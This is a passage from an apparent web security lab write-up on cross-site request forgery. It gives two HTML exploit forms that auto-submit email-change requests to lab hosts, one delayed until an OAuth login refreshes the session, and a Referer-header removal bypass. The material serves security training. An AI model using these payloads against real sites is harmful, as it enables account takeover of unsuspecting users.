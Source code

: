 If you're not authenticated if you try to change the email it's not going to work because the session cookie is another one.

To solve this lab we can add a timeout.

```html
<form class="login-form" name="change-email-form" action="https://0a25004704720d218297fb6100270005.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="hacked@hacked.com">
</form>

<script>
    window.open("https://0a25004704720d218297fb6100270005.web-security-academy.net/social-login");
    setTimeout(updateEmail, 5000);
    function updateEmail(){
	    document.forms[0].submit();
	}
</script>
```

The function setTimeout call updateEmail after five seconds have passed. This functions send the form, a post request to /change-mail endpoint and since there has been enought time for the OAuth flow to be completed can change the email without any problems.

# CSRF where Referer validation depends on header being present

Referer header allow to identify where the people who vistim the page come(another page https://example.com) and this is used to perform analysis.

If we intercept the request of change-email endpoint we see that don't have csrf token.

We can try to create our exploit server:

```html
<form class="login-form" name="change-email-form" action="https://0aff007a032c2dd382ef3395001d0062.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden name="email" value="">
</form>

<script>
document.forms[0].submit();
</script>
```

If you store and view expoit you have to see this:

```
"Invalid referer header"
```

It seems like we need that the server is checking the referer header. If you obtain the request you see that the header is from exploit server and should come from victim server.

If you try to **delete the header "referer"** to see what happens you observe that change the email.
